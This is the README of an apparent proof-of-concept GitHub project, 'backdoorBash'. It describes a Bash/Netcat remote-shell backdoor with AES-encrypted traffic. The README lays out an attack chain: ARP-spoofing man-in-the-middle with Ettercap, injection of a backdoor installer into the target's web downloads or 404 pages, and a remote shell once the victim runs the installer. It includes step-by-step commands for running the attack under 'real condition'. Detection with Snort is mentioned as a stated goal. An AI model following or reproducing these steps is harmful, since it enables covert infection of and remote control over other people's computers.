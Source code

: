 backdoorBash
============

Unix remote-shell backdoor develop with Bash, Netcat, OpenSSL (data encryption with AES-128bit)

## Introduction

This project is associated to another mine : 
- https://github.com/pilebones/etterfilterSamples
- https://github.com/pilebones/hostingBackdoorInstaller

The main goals of this project is to implement an attack scenario as below : 
- Implement backdoor like remote-shell with Bash
- Attack Man In the middle with Ettercap (like ARP Spoofing)
- Hosting a backdoor installer
- Automate data alteration to inject our backdoor inside the computer of target by a browser
- If the target run (naively) the script (ie: the backdoor installer) without reading code source the computer is infected and the attacker can obtain a remote access command
- Detect and prevent this kind of attack with NIDS tool as Snort

Notice :
- The programming language was choose only for a Proof of Concept (POC)
- The socket layer is assumed by a portable version of Netcat. I compiled Netcat for i686 and x86_64 computer architecture a put the binary inside this project.
- The transmited data were encrypted with AES-128 (without using Cryptocat). The data are encrypted on the fly via OpenSSL.

## Requirements

- openssl (tested with v1.0.1j)
- ettercap (>= v0.8.1)
- etterfilter (>= v0.8.1)
- etterfilter (>= v0.8.1)
- netcat (The compiled version is "The GNU Netcat" v0.7.1)

## How it work ?

The backdoor-client connection work localy and remontly (inside same private network with the same access-point), ie : see "$HOST" inside "config.sh".

### Simple test

```bash
git clone git@github.com:pilebones/backdoorBash.git
cd backdoorBash
cp config.sh.sample config.sh 
vim config.sh
./server.sh
HOST=192.168.0.x ./client.sh
```
.... And try to execute some shell command

### Real condition

```bash
git clone git@github.com:pilebones/backdoorBash.git
git clone git@github.com:pilebones/etterfilterSamples.git
git clone git@github.com:pilebones/hostingBackdoorInstaller.git
cp backdoorBash/config.sh.sample backdoorBash/config.sh
vim backdoorBash/config.sh
# For export remove client.sh *.log config.sh.sample
tar xvzf hostingBackdoorInstaller/export.tar.gz backdoorBash/
# Configure your vhost to hosting hostingBackdoorInstaller's project
cd etterfilterSamples/inject_backdoor_installer/
# Update Redirect URL from "fake-http-redirect.txt"
vim fake-http-redirect.txt
IFACE=wlanX IP_AP=192.168.0.1 IP_TARGET=192.168.0.x ./run
# From target try to download a shell script like "test.sh" or try with 404 Not Found page (same behavior => inject backdoor installer)
# From target : "chmod +x bd_installer.sh && ./bd_installer.sh"
HOST=192.168.0.x ./client.sh
```

## Limitations

This backdoor is writing in bash programming language => It work only on Unix OS.

Currently, tested only on :
- Archlinux -
- Debian 7 
- Ubuntu 14.10

